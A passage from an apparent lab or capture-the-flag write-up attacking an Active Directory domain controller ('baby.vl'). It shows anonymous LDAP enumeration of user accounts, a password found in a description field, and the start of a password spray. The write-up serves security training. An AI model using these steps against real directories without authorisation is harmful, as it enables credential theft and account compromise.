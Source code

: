 ```bash
echo -e "10.10.68.111\tbaby.vl BABYDC.baby.vl" | sudo tee -a /etc/hosts
10.10.68.111    baby.vl BABYDC.baby.vl
```

LDAP anonymous bind is enabled. Knowing that, we can enumerate the domain via LDAP queries.

```bash
ldapsearch -x -H ldap://10.10.68.111 -b 'DC=baby,DC=vl' "(ObjectClass=Person)" | grep -i samaccountname
sAMAccountName: Guest
sAMAccountName: Jacqueline.Barnett
sAMAccountName: Ashley.Webb
sAMAccountName: Hugh.George
sAMAccountName: Leonard.Dyer
sAMAccountName: Ian.Walker
sAMAccountName: Connor.Wilkinson
sAMAccountName: Caroline.Robinson
sAMAccountName: Joseph.Hughes
sAMAccountName: Kerry.Wilson
sAMAccountName: Teresa.Bell
```

# Exploitation

Created a users.list wordlist from the previous output.

```bash
ldapsearch -x -H ldap://10.10.68.111 -b 'DC=baby,DC=vl' "(ObjectClass=Person)" | grep -i samaccountname | awk '{print $2}' > users.list
```

Further enumeration led us to discover a clear-text password in the description field.

```bash
ldapsearch -x -H ldap://10.10.68.111 -b 'DC=baby,DC=vl' "(ObjectClass=Person)" | grep -i pass | sort -u
badPasswordTime: 0
badPasswordTime: 132819821434884398
description: Set initial password to <REDACTED>
```

That password belongs to ‘Teresa.Bell’. However, we could simply spread it.

```bash
ldapsearch -x -H ldap://10.10.68.111 -b 'DC=baby,DC=vl' "(ObjectClass=Person)" | grep -iE 'description.*password' -B 4
objectClass: organizationalPerson
objectClass: user
cn: Teresa Bell
sn: Bell
description: Set initial password to <REDACTED>
```

Doing a password spray attack shows a ‘STATUS_PASSWORD_MUST_CHANGE’ code.
